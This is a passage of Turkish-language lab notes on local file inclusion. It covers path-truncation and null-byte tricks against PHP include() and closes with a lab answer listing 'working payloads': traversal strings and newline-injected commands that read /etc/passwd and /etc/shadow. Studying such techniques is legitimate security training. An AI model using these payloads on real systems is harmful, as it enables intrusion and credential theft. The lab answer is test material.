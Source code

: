 Bu tür bir payload örneği aşağıdaki gibi olabilir:

```url
?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```

Elbette `./` dizesini 2048 kez (toplam 4096 karakter) elle yazmak zorunda değiliz, ancak aşağıdaki komutla bu dizenin oluşturulmasını otomatikleştirebiliriz:

```shell-session
[!bash!]$ echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
non_existing_directory/../../../etc/passwd/./././<SNIP>././././
```

Önceki bölümde açıklandığı gibi, daha fazlasını eklemek bizi yine root dizinine götüreceğinden, `../` sayısını da artırabiliriz `.` Ancak, bu yöntemi kullanırsak, dizenin sonunda (`/etc/passwd`) istenen dosyamızın değil, yalnızca `.php` 'nin kesildiğinden emin olmak için dizenin tam uzunluğunu hesaplamalıyız. Bu yüzden ilk yöntemi kullanmak daha kolay olacaktır.


#### **Null Bytes**  

PHP'nin 5.5'ten önceki sürümleri `null byte enjeksiyonuna` karşı savunmasızdı, yani stringin sonuna bir null byte (`%00`) eklemek stringi sonlandıracak ve ondan sonraki hiçbir şeyi dikkate almayacaktı. Bunun nedeni, stringlerin düşük seviyeli bellekte nasıl saklandığıdır; bellekteki stringler, Assembly, C veya C++ dillerinde görüldüğü gibi, stringin sonunu belirtmek için bir null byte kullanmalıdır.  

Bu güvenlik açığından yararlanmak için, payload'umuzu bir null byte ile sonlandırabiliriz (örneğin `/etc/passwd%00`), böylece `include() işlevine` aktarılan son yol (`/etc/passwd%00.php`) olacaktır. Bu şekilde, `.php` dizemize eklenmiş olsa bile, null bayttan sonraki her şey kesilecek ve böylece kullanılan yol aslında `/etc/passwd` olacaktır, bu da eklenmiş uzantıyı atlamamıza yol açacaktır.


Soru : Yukarıdaki web uygulaması LFI istismarını önlemek için birden fazla filtre kullanmaktadır. flag.txt dosyasını okumak için bu filtreleri atlamaya çalışın

Cevap :

Çalışan Payloadlar Herhangi birini kullanabilirsiniz.

%0a/bin/cat%20/etc/shadow   
%0a/bin/cat%20/etc/passwd   
%0a/bin/cat%20/etc/shadow   
%0a/bin/cat%20/etc/passwd   
/…/./…/./…/./…/./…/./…/./…/./…/./etc/passwd   
%0a/bin/cat%20/etc/passwd   
%0a/bin/cat%20/etc/shadow   
%0a/bin/cat%20/etc/shadow   
%0a/bin/cat%20/etc/passwd   
%0a/bin/cat%20/etc/passwd   
%0a/bin/cat%20/etc/shadow   
/…/./…/./…/./…/./…/./…/./…/./…/./etc/passwd

![Pasted image 20241117214158.png](/img/user/resimler/Pasted%20image%2020241117214158.png)

